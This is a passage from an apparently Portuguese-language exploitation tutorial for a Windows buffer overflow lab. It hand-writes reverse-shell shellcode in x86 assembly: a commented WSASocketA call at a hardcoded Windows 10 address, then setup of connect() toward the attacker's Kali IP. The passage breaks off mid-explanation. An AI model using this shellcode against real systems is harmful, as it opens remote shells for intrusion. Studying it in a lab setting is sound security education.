 Já sabemos o endereço da API no OS, vamos iniciar nosso codigo em assembly no próprio Kali.

```nasm
; WSASocketA()

xor ebx, ebx            ; Zerando EBX
push ebx                ; Fazendo push para o parametro 'dwFlags' que pode ser nulo
push ebx                ; Fazendo push para o parametro 'g' que pode ser nulo
push ebx                ; Fazendo push para o parametro 'lpProtocolInfo' que pode ser nulo
mov bl, 6               ; Inserindo valor 6 no Protocol (IPPROTO=6)
push ebx                ; Fazendo push para o parametro 'protocol'
xor ebx, ebx            ; Zerando EBX
inc ebx                 ; Incrementando 1 no EBX zerado 'type: SOCK_STREAM=1'
push ebx                ; Fazendo push para o parametro 'type'
inc ebx                 ; Incrementando 1 ao EBX que ja tem valor 1 'af: AF_INET=2'
push ebx                ; Fazendo push para o parametro 'af'
mov ebx, 0x76e67140     ; Endereco da WSASocketA() no Win10 21H1
call ebx                ; Chamada para WSASocketA()
xchg eax, esi           ; Salvando o socket em ESI

```

Agora precisamos fazer a chamada para a API connect() cuja documentação pode ser encontrada [aqui](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect).

```c
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
```

Cujo parâmetro “sockaddr” segue a seguinte ordem:

```c
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```

Vamos encontrar o endereço da connect() em nosso OS.

![Enumaração do comando.](/std/winbof/winbof-40.png)

Como em Assembly programamos em ordem inversa, o primeiro parâmetro a ser configurado na connect() é o “namelen”,que representa o endereço para onde a conexão será criada, ou seja, da nossa máquina atacante constituido por IP e PORTA, mas os valores tem que ser passados em hexadecimal e com os bytes em ordem inversa, como o IP do meu Kali é 192.168.1.17, teria que seguir a ordem 171168192.

Podemos utilizar a função “hex()” do python para descobrir byte a byte do nosso endereço.
